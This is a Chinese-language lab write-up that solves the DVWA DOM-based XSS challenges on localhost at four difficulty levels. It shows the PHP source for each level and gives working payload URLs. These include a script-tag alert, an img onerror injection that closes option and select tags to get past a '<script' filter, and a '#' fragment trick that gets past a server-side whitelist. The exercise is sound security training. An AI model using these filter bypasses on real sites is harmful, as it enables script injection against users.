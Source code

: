 	**XSS(DOM):**使用DOM可以使程序和脚本能够动态访问和更新文档内容、结构及样式。在网站页面有许多元素，当页面达到浏览器时，浏览器会为页面创建一个document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。客户端的脚本程序可以通过DOM动态修改页面内容，从客户端获取DOM中的数据并在本地执行。


## 1、Low
**查看源码**
```php
<?php

# No protections, anything goes

?>
```

直接开干吧。

**实战**<br />直接在url中构造payload
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=<script>alert("XMTX")</script>
```

成功弹窗<br />![image-20210416142238350.png](_img/assets/1655880301325-141cec2c-742a-4c00-882a-e1770bb838a5.png)


## 2、Medium
**查看源码**
```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

**函数说明**
```
stripos()
定义和用法
stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。

语法
stripos(string,find,start)
string	必需。规定被搜索的字符串。
find	必需。规定要查找的字符。
start	可选。规定开始搜索的位置。
```

通过代码我们可以看到对`<script`进行了检测，不过我们可以使用img 标签。

**实战**<br />构造payload
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=<img src=1 onerror=alert("XMTX")>
```

可是没有任何弹窗。

查看前端代码<br />![image-20210416143433774.png](_img/assets/1655880321239-bc7a45a3-a1d6-444c-b3b4-52053bbe98bc.png)

可以看到是因为包含在`<option>`和`<select>`中我们将其闭合即可，构造payload:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=</option></select><img src=1 onerror=alert("XMTX")>
```
![image-20210416143527562.png](_img/assets/1655880327440-b0c07f60-f48c-4d62-836b-adda6801abe5.png)


## 3、High
**查看源码**
```php
Unknown Vulnerability Source
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

通过源码可以看到这里事采用了白名单的方式，在这里我们可以采用#来绕过服务器端的操作（此方法仅适用于DOM型）

#是一个浏览器指导字符，该字符后面的的数据不会被传到服务器后端，所以可以通过该符号来绕过后端代码的过滤

**实战**<br />构造payload：
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?#default=<script>alert("XMTX")</script>
```
![image-20210416144000373.png](_img/assets/1655880341205-bc12a435-420d-4805-9606-073d18ea6fa7.png)


## 4、Impossible

查看源码
```php
<?php# Don't need to do anything, protction handled on the client side?>
```
这个就不说了。
